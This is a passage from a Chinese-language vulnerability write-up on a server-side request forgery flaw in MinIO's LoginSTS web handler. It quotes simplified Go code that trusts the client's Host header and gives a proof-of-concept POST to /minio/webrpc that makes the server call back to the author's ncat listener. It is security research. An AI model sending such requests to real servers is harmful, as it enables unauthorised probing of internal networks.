 简化其代码如下：

```
// LoginSTS - STS user login handler.
func (web *webAPIHandlers) LoginSTS(r *http.Request, args *LoginSTSArgs, reply *LoginRep) error {
    ctx := newWebContext(r, args, "WebLoginSTS")

    v := url.Values{}
    v.Set("Action", webIdentity)
    v.Set("WebIdentityToken", args.Token)
    v.Set("Version", stsAPIVersion)

    scheme := "http"
    // ...

    u := &url.URL{
        Scheme: scheme,
        Host:   r.Host,
    }

    u.RawQuery = v.Encode()
    req, err := http.NewRequest(http.MethodPost, u.String(), nil)
    // ...
}
```

没发现有鉴权上的绕过问题，但是发现了另一个有趣的问题。这里，MinIO为了将请求转发给“自己”，就从用户发送的HTTP头Host中获取到“自己的地址”，并将其作为URL的Host构造了新的URL。

这个过程有什么问题呢？

因为请求头是用户可控的，所以这里可以构造任意的Host，进而构造一个SSRF漏洞。

我们来实际测试一下，向`http://192.168.227.131:9000`发送如下请求，其中Host的值是我本地ncat开放的端口（`192.168.1.142:4444`）：

```
POST /minio/webrpc HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 80

{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}
```

成功收到请求：

[![image-20210124215812861.png](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/ebe8ebd1-d1c1-4d28-92e7-8da4774e940e.6488ddc9fcc5.png)](https://www.leavesongs.com/media/attachment/2021/01/30/ebe8ebd1-d1c1-4d28-92e7-8da4774e940e.png)

可以确定这里存在一个SSRF漏洞了。

仔细观察，可以发现这是一个POST请求，但是Path和Body都没法控制，我们能控制的只有URL中的一个参数`WebIdentityToken`。

但是这个参数经过了URL编码，无法注入换行符等其他特殊字符。这样就比较鸡肋了，如果仅从现在来看，这个SSRF只能用于扫描端口。我们的目标当然不仅限于此。

